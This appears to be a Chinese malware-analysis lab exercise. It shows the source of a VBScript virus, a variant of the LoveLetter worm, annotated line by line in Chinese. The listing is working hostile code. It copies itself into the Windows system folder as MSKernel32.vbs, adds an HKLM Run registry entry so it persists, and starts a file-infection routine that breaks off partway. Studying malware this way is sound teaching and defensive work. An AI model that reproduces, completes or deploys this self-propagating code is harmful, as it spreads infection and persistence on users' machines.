 ## 查看病毒分析

(6) 查看svir.vbs的病毒源码分析，指出病毒如何用代码实现对文件、注册表和进程的操作。

### 病毒源码

```vbscript
Rem barok -loveletter(vbe) <i hate go to school>
Rem by:spyder/ispyder@mail.com/@GRAMMERSoftGroup/Manila,Philippines

'http://msdn.microsoft.com/en-us/library/d6dw7aeh(VS.85).aspx
'On Error Resume Next 
' 发生错误时，程序执行下一代码
Dim fso,dirsystem,file,vbscopy
' 定义变量
Set fso = CreateObject("Scripting.FileSystemObject")	'创建文件对象FileSystemObject位于库 Scripting
Set file = fso.OpenTextFile(WScript.ScriptFullname,1)
'以只读方式打开当前脚本，WScript.ScriptFullname返回当前运行脚本的完整路径。
vbscopy = file.ReadAll	'将病毒全部代码赋给vbscopy
' 以文本形式读取整个文件，并赋给VBscopy

main()
Sub main()
	On Error Resume Next
	Dim wscr,c
	Set wscr = CreateObject("WScript.Shell")
' 创建一个WScript.Shell对象，用来修改注册表
	Set dirsystem = fso.GetSpecialFolder(1)	
' 1：'获取System文件夹路径，0：windows文件夹，2：temp文件夹
	Set c = fso.GetFile(WScript.ScriptFullName)	
'通过正在执行脚本路径获取病毒文件
	c.Copy(dirsystem&"\MSKernel32.vbs")	
'' 备份病毒到系统目录中
	
REM开始调用几个功能模块
	regruns()	
' 修改注册表，创建自启动项
	folderlist("D:\ExpNIC\VirusAD\Tools\ScriptVir\VBA\")
' 感染指定目录下的文件
	runmsg()	
'显示病毒发作
End Sub

Sub regruns()	'在注册表中创建自启动项
	On Error Resume Next
	regcreate '调用自定义函数regcreate
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32",dirsystem&"\MSKernel32.vbs" '两个参数

End Sub


Sub regcreate(regkey,regvalue)	'修改注册表（创建键值）
	On Error Resume Next
	Set regedit = CreateObject("WScript.Shell")
	regedit.RegWrite regkey,regvalue
End Sub


Sub infectfiles(folderspec)	'执行传染文件操作
	On Error Resume Next
	Dim f,f1,fc,ext,s,m
	Set f = fso.GetFolder(folderspec) '获得文件夹folderspec的句柄
```